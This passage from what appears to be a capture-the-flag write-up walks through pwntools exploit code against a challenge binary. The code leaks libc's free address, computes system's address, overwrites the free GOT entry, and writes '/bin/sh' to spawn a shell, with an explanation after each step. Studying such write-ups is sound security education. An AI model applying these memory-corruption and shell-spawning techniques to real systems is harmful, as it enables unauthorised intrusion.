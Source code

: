 	#LIBCOFFSET
	free_in_libc_at_runtime = leak
	system_in_libc = free_in_libc_at_runtime + system_offset
	log.info("System in libc: " + hex(system_in_libc_at_runtime))
	what = (p32(system_in_libc_at_runtime) + p32(leak) )
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline(str(len(what)+1))
	conn.sendline(what)
	conn.recvuntil("Choice:")
{% endhighlight %}
Here the function takes in input the `free_in_got` address and before propagating it up to `char *announcement` adds `100` to later move this into `int announcement_length`. Then leaks the `free_in_libc_at_runtime` address, calculates `system_in_lib_at_runtime` using the offset obtained from the leaked libc ad writes it into `free_in_got`

<br>Free pointer step:
{% highlight Python%} 
def free_pointer(address):
	p = log.progress('Propagating_bw')
	for i in xrange(260):
		p.status("prop " + str(i) + " of 260")
		propagate_bw(address)
	p.success("Finish")
	initialize(0)
{% endhighlight %}
After a little debugging we found out that just "dragging" amounts into `announcement` could cause some problem since values would get summed up in an unwanted way, so we defined a procedure to "drag back" the value into the "legit space" (`int s2_citizens[l2_len]`) and purge it away by reinitilizing everything to 0.

<br>Second step:
{% highlight Python%} 
def second_step(address):
	initialize(address)
	propagate_fw(address)
	initialize(0)
	p = log.progress('Propagating')
	for i in xrange(256):
		p.status("prop " + str(i) + " of 256")
		propagate_fw(address)
	p.success("Finish")
	what = "/bin/sh\x00"
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline(str(len(what)+1))
	conn.sendline(what)
	conn.recvuntil("Choice:")
{% endhighlight %}
Similar to the first one, puts a valid bss address into `announcement` pointer and writes `/bin/sh` into it.
